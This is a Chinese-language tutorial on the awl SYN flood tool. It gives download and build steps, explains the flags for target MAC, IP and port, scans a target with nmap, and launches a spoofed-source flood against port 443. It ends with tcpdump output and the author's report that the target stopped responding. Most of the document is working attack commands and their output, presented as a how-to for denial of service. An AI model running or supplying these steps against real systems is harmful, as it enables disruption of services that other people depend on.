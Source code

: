 awl攻击
############

linux下awl 多线程SYN攻击工具,加了MAC伪装

::

    awl -i eth0 .......

syn洪水攻击， 伪装ip ，服务端收到的都是syn_recv状态的连接。

参考地址： http://blog.51cto.com/zhangxz/1431148


一,安装:
===============



::

    wget http://soft.alv.pub:180/linux/51CTO%CF%C2%D4%D8-awl-0.2.tar_vhcFaEwRuq7S.gz

    tar -zxvf awl-0.2.tar.gz
    yum install gcc gcc-c++ -y
    ./configure
    make
    make install

awl的执行程序安装后在/usr/local/bin/目录下

二,说明:
==============


awl 的格式如下:

::

    ./awl -i eth0 -m aa:bb:cc:dd:ee:ff -d ip -p port

（本地安装在我的jenkins机器上）
参数如下:

-i  发送包的接口,如果省略默认是eth0
-m  被攻击机器的mac地址,程序不能根据被攻击IP得到MAC,需要手工指定.先ping 目标IP,再arp -a就可以看到.如果省略则为ff:ff:ff:ff:ff:ff
-d  被攻击机器的IP
-p  被攻击机器的端口.

这里注意，手动指定-i参数很重要，比如我们的网卡是ens33,那就要指定 -i ens33，alvin的实测结果显示，不这样指定的时候，攻击无效。
三,测试,
===============


服务器端:centOS 5.0

对方服务器:freebsd   6.2   运行apache

1,首先得知对方IP
------------------------------

运行nmap -v -A 192.168.0.1   查看对方开了啥服务

::

    [root@localhost bin]# nmap -v -A 10.122.89.106

    Starting Nmap 4.11 ( http://www.insecure.org/nmap/ ) at 2008-06-02 19:24 CST
    DNS resolution of 1 IPs took 0.39s.
    Initiating SYN Stealth Scan against 10.122.89.106 [1680 ports] at 19:24
    Discovered open port 21/tcp on 10.122.89.106
    Discovered open port 25/tcp on 10.122.89.106
    Discovered open port 22/tcp on 10.122.89.106
    Discovered open port 443/tcp on 10.122.89.106
    Discovered open port 80/tcp on 10.122.89.106
    Discovered open port 199/tcp on 10.122.89.106
    Discovered open port 110/tcp on 10.122.89.106
    Discovered open port 143/tcp on 10.122.89.106
    Discovered open port 3306/tcp on 10.122.89.106

得知对方开了如上端口

ping 192.168.0.1   得知mac地址

查看arp -a 得知对方IP的MAC地址

2.开始攻击:
-----------------------

::

    ./awl -i eth0 -m aa:bb:cc:dd:ee:ff -d 192.168.0.1 -p 443

ping 192.168.0.1 -t 查下对方反应

四,测试效果
=================

攻击一开始,对方明显挂掉,各种应用无反应,
如下是抓包:

::

    [root@localhost ~]# tcpdump
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
    19:26:10.765001 IP 196.224.129.69.58334 > 10.122.82.169.https: S 2137366997:2137366997(0) win 57403
    19:26:13.835951 IP 221.140.165.45.45259 > 10.122.82.169.https: S 2020705765:2020705765(0) win 28443
    19:26:14.379435 IP 108.99.168.18.63871 > 10.122.82.169.https: S 1625298749:1625298749(0) win 23981
    19:26:14.917676 IP 141.90.214.98.34527 > 10.122.82.169.https: S 697113617:697113617(0) win 48400
    19:26:15.645562 IP 111-104.dsl.sky.cz.33734 > 10.122.82.169.https: S 1620903624:1620903624(0) win 34262
    19:26:16.396435 IP 135.205.163.109.59589 > 10.122.82.169.https: S 1747490631:1747490631(0) win 40348
